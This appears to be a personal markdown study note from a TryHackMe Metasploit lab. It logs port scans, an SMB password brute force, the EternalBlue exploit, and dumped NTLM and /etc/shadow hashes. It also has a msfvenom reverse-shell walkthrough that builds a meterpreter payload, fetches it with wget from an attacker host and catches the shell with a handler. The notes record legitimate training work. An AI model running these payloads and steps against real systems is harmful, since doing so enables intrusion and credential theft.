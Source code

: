 ```yaml
---
Tags: MetaSploitExploitation
date: 06-20-2022
---
```


[TryHackMe Rooms](./TryHackMeRooms.md)

---


- learned to user metasploit scan module to scan ports 'scannner/portscan/tcp'
- found 5 open ports using that scanner
- used NMAP while in metasploit console 
- used scanner/smb/login module with a password file and the user penny when I ran the exploit  the password discovered was leo1234
- used info on smtp_relay module to discover that Campbell Murray wrote the module
## Task 5
- ran NMAP and found  several open ports and saved the output, it was a windows 7 machine.
- used the eternal blue exploit 
- NTLM hashes are located at %SystemRoot%/system32/config/SAM
- found a flag in jons documents
	- THM-5455554845
	- used hashdump in meterpreter to dump this hash
		-  pirate:1001:aad3b435b51404eeaad3b435b51404ee:8ce9a3ebd1647fcc5e04025019f4b875:::

## Task 6 Msfvenom
- cat /etc/shadow
```
+] murphy:$6$qK0Kt4UO$HuCrlOJGbBJb5Av9SL7rEzbxcz/KZYFkMwUqAE0ZMDpNRmOHhPHeI2JU3m9OBOS7lUKkKMADLxCBcywzIxl7b.:1001:1001::/home/murphy:/bin/sh
[+] claire:$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:1002:1002::/home/claire:

```

- here is a webpage with [meterpreter basics](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
- step one , create a linux payload 
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`
- step two - upload it to target system
	- python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the target machine
- step three - chmod +x shell to executable
- step four setup your listener in msfconsole
	- load multi/handler
	- set local port and host IP
	- set *PAYLOAD* to linux/x86/meterpreter/reverse_tcp
	- exploit
- run reverse shell on target machine
- loaded and ran post/linux/gather/hashdump to get linux hashes